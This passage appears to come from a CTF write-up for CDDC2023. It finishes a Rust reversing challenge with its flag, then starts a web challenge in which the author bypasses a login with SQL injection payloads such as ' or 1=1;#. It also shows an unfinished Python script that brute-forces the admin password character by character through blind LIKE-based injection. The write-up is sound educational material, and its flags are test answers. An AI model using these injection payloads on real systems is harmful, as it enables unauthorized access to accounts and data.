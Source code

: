 ```rust
    bb7: {
        _10 = CheckedAdd(_0, const 1_u8); 
        assert(!move (_10.1: bool), "attempt to compute `{} + {}`, which would overflow", _0, const 1_u8) -> bb8; 
    }

    bb8: {
        _0 = move (_10.0: u8);           
        goto -> bb2;                     
    }
}
```

This can be re-written as:

```js
func033(input){
    for (let i = 0;i < 10;i++){
        if(i%2 == 0){
            input += 1
        }
    }
}
```

Therefore `func033(106) = 111` which is `'o'`

Final flag: `CDDC2023{w0w_YOU_CuT_cR4b_Be1ly_oP3N}`

## Are you admin

Tags: web

> Login with the admin !
> http://52.78.16.36:8881/web1/index.php

So we are given a username and password field. I tried username `admin` and password `' or 1=1;#` and it worked - it just said "Hello admin" - so it is vulnerable to SQL Injection

I assumed that the query was something like this:
```SQL
SELECT <thing> FROM <thetable> WHERE id = '{id}' AND pw = '{pw}';
```

We see that the url is `http://52.78.16.36:8881/web1/?id=admin&pw=password`, so the column name is probably `pw`, so we can inject:
```
' or 1=1 or pw LIKE '%';#
```
We then replace the `%` with increasingly many `_` until we find one that matches - oh wait it says "no hack", so that probably does not work. Whatever since `%` is not filtered lets use that to get the password:
```python
import requests
base = "http://52.78.16.36:8881/web1/"

arr = []
id = 40
print(f"base url: {base}")
while True:
    char = chr(id)
    pw = f"' OR pw LIKE '{''.join(arr)}{char}%';#"
    params = {'id': 'admin', 'pw': pw}
    res = requests.get(base, params=params)
    if id == 127:
        print("end: "+pw)
        break
    elif 'Hello admin' in res.text:
```